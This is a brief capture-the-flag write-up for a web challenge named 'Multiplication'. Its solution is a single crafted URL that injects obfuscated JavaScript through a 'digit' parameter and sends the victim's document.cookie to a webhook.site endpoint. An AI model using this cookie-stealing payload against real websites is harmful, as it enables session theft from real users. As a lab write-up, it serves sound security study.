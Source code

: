 # Multiplication

Description:
```
Multiplication is very easy, right? right??

Link: xxx
Author: daffainfo"
```
### How to Solve

```
http://app:8080/?digit=2+instanceof+[location+=+%27javascript\x3alocation\x3D\x27\x2F\x2Fwebhook\x2Esite\x2F79fab17f\x2D1c1b\x2D440c\x2D8d24\x2D2e3a7e995ee5\x2F\x3Fx\x3D\x27\x2Bdocument\x2Ecookie%27]
```